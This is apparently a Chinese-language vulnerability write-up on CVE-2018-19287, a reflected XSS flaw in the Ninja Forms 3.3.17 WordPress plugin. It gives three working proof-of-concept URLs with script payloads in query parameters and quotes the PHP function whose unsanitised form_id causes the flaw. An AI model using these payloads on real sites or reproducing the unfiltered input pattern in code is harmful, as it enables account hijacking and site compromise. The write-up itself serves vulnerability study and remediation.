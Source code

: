（CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS
===========================================================

一、漏洞简介
------------

Ninja
Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja
Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

二、漏洞影响
------------

三、复现过程
------------

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![](./resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId24.png)

下图是触发第二个POC的图：

![](./resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId25.png)

下图是触发第三个POC的图：

![](./resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId26.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf\_sub，确定了核心文件\\wp-content\\plugins\\ninja-forms\\includes\\Admin\\Menus\\Submissions.php。

下图是Submissions.php部分内容：

![](./resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId28.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

    public function change_views( $views )

    {

        // Remove our unused views.

        unset( $views[ 'mine' ] );

        unset( $views[ 'publish' ] );

        // If the Form ID is not empty...

        if( ! empty( $_GET[ 'form_id' ] ) ) {

            // ...populate the rest of the query string.

            $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

        } else {

            // ...otherwise send in an empty string.

            $form_id = '';

        }

        // Build our new views.

        $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                        . __( 'Completed', 'ninja-forms' ) . '</a>';

        $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                            . __( 'Trashed', 'ninja-forms' ) . '</a>';

        // Checks to make sure we have a post status.

        if( ! empty( $_GET[ 'post_status' ] ) ) {

            // Depending on the domain set the value to plain text.

            if ( 'all' == $_GET[ 'post_status' ] ) {

                $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

            } else if ( 'trash' == $_GET[ 'post_status' ] ) {

                $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

            }

        }

        return $views;

    }

从上面代码，我们可以看到，form\_id并没有被过滤，导致XSS存在。

    $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45880/>
>
> <https://www.freebuf.com/vuls/190411.html>
